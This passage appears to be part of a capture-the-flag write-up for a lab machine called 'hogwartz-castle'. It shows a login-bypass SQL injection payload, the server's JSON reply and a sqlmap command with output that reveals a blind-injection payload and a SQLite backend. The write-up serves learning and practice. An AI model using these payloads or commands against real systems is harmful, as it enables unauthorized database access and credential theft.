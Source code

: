 ![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_madeyescastle/hogwartz.png)

It was hosting a login page, so I tested SQL injection, LDAP injection, XPATH injection and so on; It was vulnerable to SQL injection

`user=x ' or 1=1-- -&password=x`

And it redirect me to a json

`{"error":"The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging"}`

So I enumerated tables with SQLmap and it found one table
```
$ sqlmap -u "http://hogwartz-castle.thm/login" --data="user=x&password=x" -p user --tables
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.9#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:59:56 /2022-06-04/

[18:59:56] [INFO] resuming back-end DBMS 'sqlite' 
[18:59:56] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: user=-5956' OR 9310=9310-- XEXb&password=x
---
[18:59:56] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 18.04 (bionic)
```
